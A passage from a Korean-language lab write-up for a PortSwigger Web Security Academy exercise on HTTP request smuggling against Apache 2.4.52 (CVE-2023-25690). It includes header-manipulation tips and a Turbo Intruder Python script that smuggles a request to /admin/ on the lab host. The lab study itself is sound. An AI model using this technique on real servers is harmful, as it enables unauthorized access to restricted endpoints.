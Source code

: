 /resource로 요청하면 302 리다이렉트응답이 돌아온다. 서버측 리다이렉트가 되는 곳은 스머글링이 될 가능성이 높다. 또한, 친절하게 서버와 버전을 알려주고 있다. [여기](https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-66/version_id-782030/Apache-Http-Server-2.4.52.html)를 보면 `Apache/2.4.52`는 HTTP 요청 스머글링 취약점이 다수 존재한다는 것을 알 수 있다. 이 중에서도 `CVE-2023-25690`가 이번 랩에 존재하는 것 같다. 

![](/images/burp-academy-hrs-21-3.png)

2. 다음과 같이 Turbo Intruder를 세팅한다. 
- Connection헤더를 keep-alive로 준다.
- `Content-Length` 헤더를 `content-length`로 바꿨다. 바꾸지 않고 요청을 보내면 `Content-Length` 값이 0으로 바껴서 보내진다. 서버측에서도 즉각 결과를 준다.  `content-length`로 바꿔서 보내면 값이 업데이트되지 않고 보내진다.

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=60000)
    followUp = 'GET /admin/ HTTP/1.1\r\nHost: 0ace005c047a8f7493536f750072005a.web-security-academy.net\r\n\r\n'
    engine.queue(followUp)

def handleResponse(req, interesting):
    table.add(req)
```
